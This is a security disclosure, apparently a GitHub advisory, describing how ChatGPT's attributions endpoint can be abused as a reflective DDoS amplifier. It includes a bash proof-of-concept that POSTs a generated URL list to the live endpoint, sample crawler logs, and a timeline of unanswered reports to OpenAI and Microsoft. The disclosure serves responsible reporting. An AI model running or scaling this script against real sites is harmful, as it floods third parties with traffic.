 # OpenAI: ChatGPT Crawler Vulnerability
## Unauthenticated Reflective Distributed Denial of Service (DDoS)

**Severity:** [**High** - 8.6 CVSS score](https://www.first.org/cvss/calculator/3.1#CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:C/C:N/I:N/A:H/E:H/RL:U/RC:C/CR:L/IR:L/AR:H/MAV:N/MAC:L/MPR:N/MUI:N/MS:C/MC:N/MI:N/MA:H](https://chandanbn.github.io/cvss/#CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:C/C:N/I:N/A:H
) _because it is network-based, low complexity, no privileges required, no user interaction required, changed scope, no impact on confidentality or integrity but high impact on availability._

**ChatGPT crawler can be triggered to DDoS a victim website via HTTP request to unrelated ChatGPT API.** This defect in OpenAI software will spawn a DDoS attack on unsuspecting victim website, utilizing multiple Microsoft Azure IP address ranges on which ChatGPT crawler is running.

### Details

ChatGPT API exhibits a severe quality defect when handling HTTP POST requests to `https://chatgpt.com/backend-api/attributions`. 
The API expects a list of hyperlinks in parameter `urls`.
It is commonly known that hyperlinks to the same website can be written in many different ways. 
Due to bad programming practices, OpenAI does not check if a hyperlink to the same resource appears multiple times in the list. 
OpenAI also does not enforce a limit on the maximum number of hyperlinks stored in the `urls` parameter, thereby enabling the transmission of many thousands of hyperlinks within a single HTTP request.

Immediately after a well-formed HTTP POST request is received by OpenAI's `https://chatgpt.com/backend-api/attributions` API endpoint, OpenAI will initiate one HTTP request for each hyperlink contained in the `urls` parameter from the OpenAI servers located in the Microsoft Azure cloud.
At this point, a victim website will experience a high number of parallel connection attempts and HTTP requests from OpenAI's servers. Even though OpenAI is aware that they are sending a large number of requests to the same website at the same point in time, they don't make any attempt to limit the number of connections to the same website or even prevent the issuance of duplicate requests to the same resource.

Depending on the number of hyperlinks transmitted to OpenAI via the `urls` parameter, the large number of connections from OpenAI's servers might overwhelm the victim website.

This software defect provides an significant amplification factor for potential DDoS attacks. OpenAI exhibits a lack quality control processes in their software engineering and should remediate this defect as soon as possible.

### Proof of concept:

This proof of concept code highlights the defects of the OpenAI's API by initiating the sending 50 HTTP requests from OpenAI servers to `my-website.localhost`.

```bash
#!/bin/bash

echo {1..50} | tr ' ' '\n' | (
  while read -r i; 
    do echo "https://my-website.localhost:$RANDOM/$i-$RANDOM.txt"; 
  done
) | jq -R -s -j -c '{ "urls": split("\n")[:-1] }' \
| curl -v --http1.1 \
  -H 'user-agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/535.32 (KHTML, like Gecko) Chrome/133.0.0.1 Safari/535.32' \
  -H "content-type: application/json" \
  -H 'origin: https://www.chatgpt.com' \
  --data-binary @- -X POST 'https://chatgpt.com/backend-api/attributions'
```

The log files on webserver `my-website.localhost` will show many connection attempts by `ChatGPT Crawler` happening in the same second:

```
...
2025-01-10 40.84.221.211 "GET /9185 HTTP/2.0" "Mozilla/5.0 AppleWebKit/537.36 (KHTML, like Gecko); compatible; ChatGPT-User/1.0; +https://openai.com/bot"
2025-01-10 40.84.221.210 "GET /1190 HTTP/2.0" "Mozilla/5.0 AppleWebKit/537.36 (KHTML, like Gecko); compatible; ChatGPT-User/1.0; +https://openai.com/bot"
2025-01-10 40.84.221.208 "GET /9185 HTTP/2.0" "Mozilla/5.0 AppleWebKit/537.36 (KHTML, like Gecko); compatible; ChatGPT-User/1.0; +https://openai.com/bot"
2025-01-10 40.84.221.208 "GET /1190 HTTP/2.0" "Mozilla/5.0 AppleWebKit/537.36 (KHTML, like Gecko); compatible; ChatGPT-User/1.0; +https://openai.com/bot"
...
```


### Disclosure

This software defect was discovered in January 2025 and responsibly disclosed to both OpenAI as owner of the defective software and Microsoft as the owner of the servers which spawn the massive number of potentially malicious web requests. 

Unfortunately it was not possible to obtain a reaction from either party in due time, even though many attempts to ensure a mitigation of this software defect were made, including:
- contacting OpenAI security team via report on their BugCrowd vulnerability reporting platform (no response from OpenAI)
- contacting OpenAI security team via e-mail to `disclosure@openai.com` as described in the `.well-known/security.txt` file on their web server (message "mailbox is not used any more", no response from OpenAI)
- contacting OpenAI employees via reports and security advisories posted to their github repositories (no response from OpenAI)
- contacting OpenAI data privacy officer via email to `privacy@openai.com` and `dsar@openai.com` (email response written by AI pointing to FAQ website)
- contacting OpenAI support staff via email to `support@openai.com` (email response written by AI pointing to FAQ website)
- contacting Microsoft security team via e-mail to `secure@microsoft.com`, `abuse@microsoft.com`, and many more (no response from Microsoft)
- contacting Microsoft security team via forms filled out on `cert.microsoft.com` (email response written by AI: "case closed")
- contacting Microsoft Azure network operations team via e-mail to the contacts provided in WHOIS records (no response from Microsoft)
- contacting CloudFlare security team via report on HackerOne, as CloudFlare provides the gateway server to `https://chatgpt.com` (HackerOne staff closes report as "informative", refuses to forward information to CloudFlare)

As of Friday, 10 Jan 2025, after various reports over legal communication channels, this software defect is neither resolved by OpenAI/Microsoft nor did they acknowledge its existence.

